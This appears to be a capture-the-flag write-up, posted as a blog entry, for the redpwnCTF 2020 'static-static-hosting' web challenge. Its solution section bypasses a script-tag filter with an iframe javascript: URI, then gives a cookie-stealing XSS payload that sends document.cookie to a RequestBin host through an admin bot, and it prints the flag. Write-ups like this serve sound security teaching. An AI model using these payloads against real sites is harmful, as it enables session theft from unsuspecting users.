 ```yaml
---
layout: post
title: "static-static-hosting"
author: "shreyas-sriram"
---
```


# Challenge
Seeing that my last website was a success, I made a version where instead of storing text, you can make your own custom websites! If you make something cool, send it to me here.

`https://admin-bot.redpwnc.tf/submit?challenge=static-static-hosting` (aadmin-bot)

Site: `static-static-hosting.2020.redpwnc.tf`

Note: The site is entirely static. Dirbuster will not be useful in solving it.

# Solution

* The input is getting reflected in the next page, this could be a case of **XSS**
* But trying `<script>alert('1')</script>` as payload doesn't execute **XSS**
* Looking through the source code, it is clear that there is some kind of filtering for `<script>` and only certain attributes like `src, width, height, alt, class` can be used
* This is one of the payloads that works<br/>
` <iframe src="javascript:alert(1)"> `
* There is an admit-bot in the question which will visit the URL provided, this can be exploited to steal the admin's cookie
* Setup a [RequestBinURL](https://requestbin.com)
* Use the following payload in the static-pastebin<br/>
` <iframe src="javascript:var img = new Image(0,0); img.src='http://<RequestBinURL>/image.php?c=' + document.cookie; document.body.appendChild(img);"></iframe> `
* Copy the URL and submit to the admin-bot\
URL  :  ` https://static-static-hosting.2020.redpwnc.tf/site/#<Base64-payload> `
* View the logs on the **RequestBinURL** to obtain the flag
` flag{wh0_n33d5_d0mpur1fy} `